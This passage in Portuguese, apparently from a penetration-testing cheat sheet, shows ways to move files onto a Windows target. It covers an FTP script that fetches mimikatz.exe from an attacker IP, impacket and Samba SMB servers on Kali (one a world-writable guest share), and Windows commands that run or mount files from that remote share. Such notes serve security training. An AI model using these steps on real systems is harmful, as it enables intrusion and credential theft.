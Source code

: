### Cliente **Windows**

```bash
# Funciona bem com python. Com o pure-ftp use fusr:ftp
echo open 10.11.0.41 21 > ftp.txt
echo USER anonymous >> ftp.txt
echo anonymous >> ftp.txt
echo bin >> ftp.txt
echo GET mimikatz.exe >> ftp.txt
echo bye >> ftp.txt
ftp -n -v -s:ftp.txt
```

## SMB

Kali como servidor

```bash
kali_op1> impacket-smbserver -smb2support kali `pwd` # Compartilha o diretório atual
kali_op2> smbserver.py -smb2support nomeDoCompartilhamento /caminho/para/o/diretório # Compartilha um diretório
# Para novas versões do Windows 10
impacket-smbserver -smb2support -user test -password test test `pwd`
```

Ou crie um compartilhamento **smb usando samba**:

```bash
apt-get install samba
mkdir /tmp/smb
chmod 777 /tmp/smb
# Adicione isto no final de /etc/samba/smb.conf:
[public]
    comment = Samba on Ubuntu
    path = /tmp/smb
    read only = no
    browsable = yes
    guest ok = Yes
# Inicie o samba
service smbd restart
```

Windows

```bash
CMD-Wind> \\10.10.14.14\caminho\para\o\executavel
CMD-Wind> net use z: \\10.10.14.14\test /user:test test # Para o SMB usando credenciais

WindPS-1> New-PSDrive -Name "novo_disco" -PSProvider "FileSystem" -Root "\\10.10.14.9\kali"
WindPS-2> cd new_disk:
```

## SCP
